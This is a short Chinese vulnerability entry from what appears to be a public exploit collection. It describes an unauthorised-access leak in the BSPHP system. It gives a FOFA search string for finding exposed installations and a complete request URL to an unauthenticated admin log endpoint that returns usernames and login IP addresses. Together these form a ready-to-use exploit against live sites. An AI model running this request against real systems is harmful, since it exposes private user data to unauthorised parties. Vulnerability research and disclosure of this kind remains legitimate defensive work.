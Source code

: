 ```yaml
---
title: BSPHP 未授权访问 信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - BSPHP
---
```


# BSPHP 未授权访问 信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

> [!NOTE]
>
> BSPHP

## FOFA

> [!NOTE]
>
> "BSPHP"

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![bsphp-1](/img/20210924020225011732.png)

